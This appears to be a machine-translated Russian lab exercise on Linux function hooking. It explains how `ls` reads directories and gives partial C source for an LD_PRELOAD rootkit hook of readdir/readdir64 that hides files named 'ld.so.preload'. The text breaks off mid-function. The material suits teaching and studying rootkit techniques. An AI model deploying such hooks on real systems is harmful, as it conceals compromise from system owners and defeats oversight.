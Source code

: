 ## Задание 6
Теперь, когда мы знаем, как использовать общие объекты для подключения различных функций, давайте узнаем, как скрыть 
файлы от ls команду более эффективным способом, чем просто поставить точку перед именем файла.

Прежде чем мы нападем на ls команда, нам нужно понять, как она на самом деле работает. Я не буду вдаваться в 
подробности всего этого здесь (люди злятся на длинные задачи), но вот отличный ресурс для понимания команды, и ее 
работы в глубине.

Главное, что нам нужно знать здесь, это то, что команда использует функцию readdir(), которая возвращает указатель 
на следующую dirent структуру в каталоге. A  — это C-структура, определение glibcdirent которой можно получить из 
man-страницы readdir:
```commandline
struct dirent {
     ino_t          d_ino;       /* Inode number */
     off_t          d_off;       /* Not an offset; see below */
     unsigned short d_reclen;    /* Length of this record */
     unsigned char  d_type;      /* Type of file; not supported not supported by all filesystem types */  
     char           d_name[256]; /* Null-terminated filename */
     };
```
Основной параметр, который нас здесь интересует, — это d_name[256] обязательное поле, содержащее имена различных 
файлов в нашем каталоге. (Понимаете, к чему я клоню?)

Итак, вот дорожная карта:
- `ls` использует `readdir()` функцию для получения содержимого каталога
- Функция `readdir()` возвращает указатель на `dirent` структуру для следующей записи каталога.
- Структура `dirent` содержит `d_name` параметр, содержащий имя файла.
- Таким образом, мы подключаем readdir() функцию
- Затем мы передаем параметры исходной функции и проверяем, равен ли параметр d_name возвращаемого dirent указателя 
  заданному имени файла.
- Если да, то мы пропускаем это и передаем остальное.
Карта готова, пора приступать к кодированию! 
```commandline
#include <string.h>
#include <stdlib.h>
#include <dirent.h>
#include <dlfcn.h>

#define FILENAME "ld.so.preload"

struct dirent *readdir(DIR *dirp)
{
     struct dirent *(*old_readdir)(DIR *dir);     
     old_readdir = dlsym(RTLD_NEXT, "readdir");
     struct dirent *dir;
     while (dir = old_readdir(dirp))
     {
           if(strstr(dir->d_name,FILENAME) == 0) break;     
     }
     return dir;
}

struct dirent64 *readdir64(DIR *dirp)
{
     struct dirent64 *(*old_readdir64)(DIR *dir);     
     old_readdir64 = dlsym(RTLD_NEXT, "readdir64");
```